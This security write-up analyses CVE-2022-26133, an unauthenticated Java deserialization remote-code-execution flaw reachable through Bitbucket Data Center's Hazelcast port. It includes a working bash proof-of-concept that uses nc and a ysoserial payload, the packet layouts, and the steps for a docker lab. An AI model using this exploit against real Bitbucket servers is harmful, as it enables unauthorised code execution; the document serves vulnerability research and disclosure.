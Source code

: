 ## Introduction


This write-up provides an overview of CVE-2022-26133 - Bitbucket Data Center - Java Deserialization Vulnerability [[1]](https://confluence.atlassian.com/security/multiple-products-security-advisory-hazelcast-vulnerable-to-remote-code-execution-cve-2016-10750-1116292387.html). A remote, unauthenticated attacker can exploit this vulnerability by sending a crafted packet to the Hazelcast port and achieve Remote Code Execution (RCE) on the Bitbucket Data Center.  This vulnerability is similar to CVE-2016-10750 [[2]](https://github.com/hazelcast/hazelcast/issues/8024) but is specific to Bitbucket. 



## TL;DR

Bitbucket Data Center makes use of Hazelcast [[3]](https://github.com/hazelcast/hazelcast) for in-memory data caching; by default port 5701 is used for Hazelcast. If an attacker could reach the Hazelcast port of a Bitbucket instance with a crafted network packet Bitbucket responds with the Cluster name of the Data Center Instance. If this cluster name is appended with a serialized payload [[4]](https://github.com/frohoff/ysoserial) and sent again to the Hazelcast port, the payload is deserialized at the cluster node leading to remote code execution on the node. A typical packet structure is as follows:


### Packet Structure of the Payload

```shell

--------------------------------------------------------------------------------------------
|                      |                   |                     |                         |
| size of group name   | group name of     | 0xFF 0xFF 0xFF 0x9C | serialized paylod       |
|       (4 bytes)      | Bitbucket cluster |                     | (e.g CommonsBeanutils1) |
--------------------------------------------------------------------------------------------
```

### POC

```shell

#!/usr/bin/env bash

BITBUCKET_IP=${1:-'127.0.0.1'}
BITBUCKET_HAZELCAST_PORT=${2:-'5701'}
YSOSERIAL_JAR=${3:-'/home/snowyowl/workspace/tools/ysoserial/ysoserial-master-SNAPSHOT.jar'}

# send a dummy probe packet to retrieve the cluster name
# e.g the below sets the length as 2 bytes and sends a dummy 2 bytes
printf "\x00\x00\x00\x02\x73\x61" | nc -nv "$BITBUCKET_IP"  "$BITBUCKET_HAZELCAST_PORT" > cluster-name.bin

# generate the serialized payload using ysoserial with the CommonsBeanutils1 gadget.
java -jar "$YSOSERIAL_JAR" CommonsBeanutils1 xcalc > CommonsBeanutils1.bin

# append header packets to the serialized payload, this is required for the hazelcast to correctly deserialize the payload
# create the final payload by joining the cluster name and the serialized payload with the header.
printf "\xFF\xFF\xFF\x9C" | cat cluster-name.bin - CommonsBeanutils1.bin > payload.bin

# send the payload to the bitbucket cluster
nc -nv "$BITBUCKET_IP"  "$BITBUCKET_HAZELCAST_PORT" < payload.bin

```


### The Vulnerability

The detection of the vulnerability primarily involved a white box testing approach. As detailed in the Hazelcast issue report [[2]](https://github.com/hazelcast/hazelcast/issues/8024), CVE-2016-10750 primarily involved modifying the Hazelcast cluster join procedure to include a serialized payload (e.g CommonsBeanutils1). However this approach was failing on Bitbucket Data Center. 

To further analyze the issue the Bitbucket jar files was decompield and source code was analyzed in conjunction to the Hazelcast reference manual [[5]](https://docs.hazelcast.com/imdg/3.12/). A rough sequence diagram was created along the way to better understand how the JoinRequest was processed inside the Bitbucket node. 

It has been observed that hazelcast join sequence is intercepted by a com.atlassian.stash.internal.cluster.ClusterJoinSocketInterceptor class that implements com.hazelcast.nio.MemberSocketInterceptor interface [[5]](https://docs.hazelcast.com/imdg/3.12/security/socket-interceptor). The ClusterJoinSocketInterceptor relied on com.atlassian.stash.internal.cluster.SharedSecretClusterAuthenticator class to perform a basic authentication using cluster name and password that was set during the Bitbucket Data Center Installation. To restate it differently a custom network authentication protocol has been implemented inside SharedSecretClusterAuthenticator on top of the Hazelcast JoinRequest. So initally it seemed that the exploit was closed on the Bitbucket end.


Inspired by the excellent research of GHSL researcher Man Yue Mo [[6]](https://securitylab.github.com/research/in-memory-data-grid-vulnerabilities/) a second round of manual code review was performed and a readObject method was noticed inside the SharedSecretClusterAuthenticator. The runMutualChallengeResponse method inside the SharedSecretClusterAuthenticator was invoking a receiveObject that was in-turn using a readObject method on the raw input stream from the Hazelcast port. It would have been a lot faster, if CodeQL could have been used for this analysis however only the decompileld source was available and using CodeQL without building the source code seemed quite challenging.  


![runMutualChallengeResponse](images/runMutualChallengeResponse.png)

To reach this execution path the GroupName (cluster name) of the Bitbucket node was required. Luckily this was directly accessible by sending a probe to the HazelCast port.


![verifyGroupName](images/verifyGroupName.png)

 The probe is a nothing but a basic TCP packet with the data bytes set as per the below structure.

```shell
------------------------------------------------
|                          |                   |
| Size of following field  |    random bytes   |
|      (4 bytes )          |    (size bytes)   |
------------------------------------------------

```

Bitbucket server responds with the groupname of the cluster prepended with the length (in bytes) of the group name. This response packet can then be used directly in crafting the final payload.

```shell

# send a dummy probe packet to retrieve the cluster name
# e.g the below sets the length as 2 bytes and sends  2 bytes (don't care - dummy bytes)
printf "\x00\x00\x00\x02\x73\x61" | nc -nv "$BITBUCKET_IP"  "$BITBUCKET_HAZELCAST_PORT"

```






### Exploit

1. Use the below commands to create Bitbucket Data Center cluster on docker

```shell

git clone https://github.com/snowyyowl/writeups.git

cd CVE-2021-26084

# setup the first node
./setup-bitbucket-docker.sh --bitbucket-docker-base-port 3000  --bitbucket-version 7.20.0 -p bitbucket-v7-20  --bitbucket-setup-base-node

# complete the setup in the Web GUI and then stop the bitbucket instance (Ctrl + C )

# allow xauth from docker so that the calc can pop-up
xhost + 

# setup the subsequent node and the loadbalancer
./setup-bitbucket-docker.sh --bitbucket-docker-base-port 3000  --bitbucket-version 7.20.0 -p bitbucket-v7-20 

``` 

2. Run the POC script

```shell

./bitbucket-hazelcast-rce-poc.sh 

# update the port to Hazelcast port on the second node (e.g 3060) to get RCE on the second node

```

![hazelcast-rce](images/bitbucket-hazelcast-rce-poc.png)


#### Probe Packet to Query Cluster Name

![wireshark-query-bitbucket-cluster-name](images/wireshark-query-bitbucket-cluster-name.png)


#### Response Packet from Bitbucket

![wireshark-bitbucket-response-cluster-name](images/wireshark-bitbucket-response-cluster-name.png)


#### Payload to trigger RCE

![wireshark-bitbucket-payload](images/wireshark-bitbucket-payload.png)


The full wireshark capture may be downloaded from [here](wireshark/bitbucket-hazelcast-rce-wireshark.pcapng)

### Call Chain

![call-chain](images/BitBucketDeserializationCallChain.png)

## References
1. [Multiple Products Security Advisory - Hazelcast Vulnerable To Remote Code Execution](https://confluence.atlassian.com/security/multiple-products-security-advisory-hazelcast-vulnerable-to-remote-code-execution-cve-2016-10750-1116292387.html)
1. [Hazelcast is vulnerable to untrusted deserialization remote code execution #8024](https://github.com/hazelcast/hazelcast/issues/8024)
1. [Hazelcast](https://github.com/hazelcast/hazelcast)
1. [ysoserial](https://github.com/frohoff/ysoserial)
1. [Hazelcast Reference Manual](https://docs.hazelcast.com/imdg/3.12/)
1. [In-Memory Data Grid Applications: Finding Common Java Deserialization Vulnerabilities with CodeQL, Man Yue Mo](https://securitylab.github.com/research/in-memory-data-grid-vulnerabilities/)

